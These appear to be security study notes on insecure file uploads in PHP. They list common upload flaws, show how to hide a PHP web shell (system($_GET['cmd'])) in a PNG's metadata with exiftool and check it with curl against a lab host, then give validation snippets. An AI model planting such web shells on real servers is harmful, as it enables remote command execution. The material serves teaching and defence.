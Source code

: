 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
# strings 1.png  #get all strings from image file
# exiftool 1.png #get meta information in files
```

Place the PHP code in a meta-data comment:
```
# echo '<?php system($_GET["cmd"]);?>' > 1.php
# exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
# curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```
